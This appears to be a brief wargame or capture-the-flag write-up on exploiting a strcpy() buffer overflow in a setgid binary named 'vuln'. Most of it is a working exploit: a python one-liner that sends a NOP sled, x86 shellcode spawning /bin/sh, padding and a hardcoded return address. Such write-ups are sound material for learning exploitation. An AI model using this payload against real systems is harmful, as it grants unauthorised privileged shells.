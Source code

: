 `vuln` has setgid bit. If we could find a way to change the flow of vuln, we can do it with owner group's rights.

strcpy() is vulnerable to bufferoverflow. First thing first, we try to crash the programm. We look for the offset of RET, we can use gdb for eg.
We have to find a valid shellcode, we add NOP and JUNK.

PAYLOAD : NOP*100 + SHELLCODE*25 + JUNK*143 + RET*4
Example : ./vuln $(python -c "print '\x90'*100 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'A'*143 + '\x50\xfd\xff\xbf'") #RET can change ! Find it manually with GDB
